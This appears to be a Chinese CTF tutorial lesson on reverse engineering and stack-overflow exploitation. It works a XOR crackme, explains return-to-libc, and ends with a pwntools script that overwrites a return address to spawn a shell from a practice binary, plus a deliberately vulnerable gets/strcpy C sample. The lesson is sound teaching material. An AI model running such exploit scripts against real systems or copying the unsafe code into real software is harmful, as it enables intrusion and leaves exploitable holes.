# CTF逆向工程与漏洞利用入门：P31：二进制安全基础


## 概述

在本节课中，我们将学习CTF（夺旗赛）中逆向工程与漏洞利用相关的两个核心知识领域：逆向工程的基本流程与工具使用，以及栈溢出漏洞的初步原理与利用方法。课程内容将涵盖静态分析、动态调试、关键算法识别以及编写简单的漏洞利用脚本。

## 逆向工程基础与工具介绍



上一节我们介绍了二进制安全的基本概念，本节中我们来看看逆向工程中常用的工具及其功能。

### 常用逆向工具

以下是逆向工程中两个至关重要的工具：

*   **PEiD**：用于检测程序是使用何种编译器或加壳工具生成的。它会显示程序的编译信息，并可能识别出程序是否被加壳保护。
*   **IDA Pro**：这是一个功能强大的反汇编和静态分析工具。
    *   **工具栏**：提供各种分析功能。
    *   **导航栏**：可以快速跳转到文件的任意地址。
    *   **函数窗口**：列出程序中的所有函数。
    *   **IDA View**：默认视图，可以按空格键在**流程图**和**反汇编代码**视图间切换。
    *   **伪代码窗口（F5）**：按F5键可以生成当前函数的类C语言伪代码，极大方便了代码逻辑的分析。
    *   **输出窗口**：显示分析过程中的各种信息。
    *   **脚本窗口**：支持使用Python或IDC语言编写脚本，辅助分析程序。
*   **OllyDbg**：这是一个动态调试工具，专门用于调试Windows平台下的程序。
    *   **反汇编窗口**：显示程序的汇编指令。
    *   **寄存器窗口**：显示CPU寄存器的当前值。
    *   **栈窗口**：显示当前栈内存的内容。
    *   **内存窗口**：可以查看和修改进程的任意内存区域。
    *   **命令窗口**：可以通过输入命令来执行调试操作，对于高效调试非常有用。



## 逆向工程的一般流程

了解了工具之后，我们来看看进行逆向分析时通常遵循的步骤。

整个逆向流程大致分为以下几个步骤：

1.  **识别程序类型**：首先确定目标程序是使用C、C++、.NET还是VB等语言编写的，不同的程序类型可能需要不同的分析方法。
2.  **静态分析寻找关键字符串**：程序运行时通常会输出提示信息，例如“input your key”、“success”、“fail”等。这些**关键字符串**可以帮助我们定位到程序中进行关键判断的函数。
3.  **定位关键函数**：通过关键字符串，在反汇编代码或伪代码中找到对应的函数。有时需要将字符串显示模式改为Unicode以便查找。
4.  **动态运行辅助分析**：如果静态分析无法理清逻辑，可以运行程序，观察其行为，并利用动态调试工具（如OllyDbg）在内存中查找更多线索，辅助静态分析。
5.  **动态调试与算法分析**：如果以上步骤仍无法解决问题，则需要进行动态调试。跟踪关键数据在内存中的变化，并根据反汇编或伪代码**猜测程序的算法逻辑**。
6.  **还原算法得到Flag**：最终目标是理解并还原出程序验证或生成Flag的完整算法，从而计算出正确的Flag。

## 逆向工程实战示例

理论流程介绍完毕，现在让我们通过一个具体的例子来实践一下。





首先，我们对示例程序 `sample1` 进行逆向分析。运行程序，它会提示输入Flag，输入错误会返回错误信息。



将程序载入IDA Pro进行分析。在字符串窗口中可以看到“good job”和错误信息。通常，输出这些字符串的代码附近会有关键的条件判断。我们找到主函数，并按F5查看伪代码。



伪代码显示，程序首先读取我们的输入，然后调用一个关键函数进行处理。该函数的核心逻辑如下：
1.  获取输入的长度。
2.  将输入（`input_buffer`）的每个字符与一个密钥（`key`）进行**异或（XOR）**运算，结果存入临时数组。
    *   伪代码关键操作：`temp[i] = input_buffer[i] ^ key`
3.  将临时数组与一个预设的硬编码数组（`encoded`）进行比较。
    *   伪代码关键判断：`if (temp[i] != encoded[i])` 则失败。
4.  密钥`key`会在每次异或后根据一个固定运算进行更新。



为了得到密钥`key`的初始值，我们需要进行动态调试。使用OllyDbg载入程序，在调用密钥生成函数（地址`0x401000`）的位置下断点。单步执行后，发现函数返回一个固定值（例如`0x4`），存放到寄存器`AL`中。因此，我们得知 `key = 4`。





现在，我们已经掌握了完整的算法：
*   **已知**：硬编码数组 `encoded`， 初始密钥 `key = 4`。
*   **算法**：`input[i] ^ key == encoded[i]`，并且每处理一个字符，`key`按固定规则更新。
*   **目标**：根据`encoded`和密钥更新规则，反推出`input`。







我们可以编写Python脚本还原Flag：
```python
encoded = [0x12, 0x34, 0x56, ...] # 从IDA中提取的硬编码数组
key = 4
flag_chars = []
for byte in encoded:
    flag_chars.append(chr(byte ^ key))
    # 根据逆向分析更新key，例如 key = (key * 3 + 1) & 0xFF
    key = (key * 3 + 1) & 0xFF # 假设的更新规则
flag = ''.join(flag_chars)
print(flag)
```
运行脚本即可得到正确的Flag，输入程序验证通过。





## 栈溢出漏洞原理





完成了逆向工程的学习，本节我们转向二进制安全的另一个核心领域——漏洞利用，首先从最常见的栈溢出开始。

栈溢出属于软件漏洞利用的范畴，在CTF中常见于Linux平台。其核心是通过程序中的漏洞（如缓冲区溢出）编写利用脚本，获取远程服务器的shell权限，从而读取flag。难点在于需要理解汇编、内存布局，并可能结合多种绕过技术。

程序运行时，函数会在栈上分配内存空间用于存储局部变量。如果向某个缓冲区（如字符数组）写入的数据**超过了其预先分配的大小**，多余的数据就会覆盖栈上的相邻内存。





### 栈溢出示例

考虑以下有问题的C代码：
```c
void vulnerable_function() {
    char buffer[128]; // 只分配了128字节
    char large_input[256];
    gets(large_input); // 可能输入超过256字节
    strcpy(buffer, large_input); // 如果large_input超过128字节，就会发生溢出
}
```
当`strcpy`执行时，如果`large_input`的内容超过128字节，它不仅会填满`buffer`，还会继续覆盖栈上`buffer`之后的内容，包括：
*   前一个栈帧的基指针（`EBP`）
*   当前函数的返回地址（`Return Address`）



如果攻击者精心构造输入数据，用特定的地址覆盖**返回地址**，那么当函数执行完毕试图返回时，程序就会跳转到攻击者指定的地址去执行。如果这个地址指向一段攻击者预先放入内存的恶意代码（shellcode），就能实现任意命令执行。

## Linux平台保护机制与绕过



在实际的Linux系统中，程序通常受到保护机制的防护。

为了增加漏洞利用的难度，现代Linux系统通常对程序施加保护：
*   **NX/DEP（数据执行保护）**：将内存页标记为**可写**或**可执行**，但不可同时具备两者。这可以防止攻击者将shellcode写入栈或堆然后执行。
*   **PIE/ASLR（地址空间布局随机化）**：每次程序运行时，其内存地址（如代码、库、栈的基址）都会随机变化，使得攻击者难以预测跳转的确切地址。



### 绕过技术：Return-to-libc

为了绕过NX和ASLR，攻击者发展出了**Return-to-libc**等技术。其核心思想是**利用程序中已有的代码**（如libc库函数）来达到目的，而不是注入和执行自己的shellcode。

攻击步骤（以调用`system(“/bin/sh”)`为例）：
1.  用填充物（如`”AAAA…”`）覆盖缓冲区直到返回地址的位置。
2.  将返回地址覆盖为`system`函数的地址。
3.  在`system`函数地址之后，放置一个**虚假的返回地址**（可以是任意值，如`”BBBB”`）。
4.  接着放置`system`函数的参数，即字符串`”/bin/sh”`的地址。





这样，当脆弱函数返回时，程序会跳转到`system`函数，并将`”/bin/sh”`作为参数，从而执行系统命令，获得一个shell。

## 栈溢出漏洞利用实战



最后，我们通过一个简单的示例程序`pwn1`来实践栈溢出利用。

使用IDA分析`pwn1`，发现`vulnerable_function`中有一个明显的栈溢出点：它使用不安全的`gets`函数向一个只有28字节（0x1C）的`buf`写入数据，而`gets`可以读取无限长的输入。

此外，程序中还有一个后门函数`shell`，它直接调用了`system(“/bin/sh”)`。我们的目标就是利用栈溢出，将函数返回地址覆盖为`shell`函数的地址。

首先，我们需要确定覆盖返回地址所需的偏移量。可以使用`pwntools`的`cyclic`工具生成一段唯一字符串，输入程序使其崩溃，然后通过崩溃时寄存器`EIP`的值计算出精确的偏移量。假设计算得到偏移为32字节。





接下来，编写利用脚本：
```python
from pwn import *
# 设置目标程序
p = process(‘./pwn1’) # 本地执行，远程则为 remote(‘host’, port)
shell_addr = 0x0804851D # 从IDA中获取的shell函数地址
# 构造payload
payload = b’A’ * 32 # 填充32字节
payload += p32(shell_addr) # 覆盖返回地址为shell函数地址
# 发送payload
p.sendline(payload)
# 切换到交互模式，获得shell
p.interactive()
```
运行脚本，成功获得了一个shell，可以执行`id`、`ls`、`cat flag`等命令读取flag。





## 总结

本节课中我们一起学习了CTF二进制安全的两大基础部分。
1.  **逆向工程**：我们了解了IDA Pro、OllyDbg等核心工具，掌握了从识别程序、定位关键字符串与函数，到静态分析与动态调试相结合，最终还原算法获取Flag的标准流程。
2.  **栈溢出漏洞利用**：我们理解了栈溢出的基本原理，即通过覆盖返回地址控制程序执行流。同时，了解了NX、ASLR等现代系统保护机制，并学习了通过**Return-to-libc**技术绕过保护的基本思路。最后，通过一个简单示例实践了漏洞利用脚本的编写。



这些是二进制安全领域的入门基石，后续更复杂的技术都建立在这些概念之上。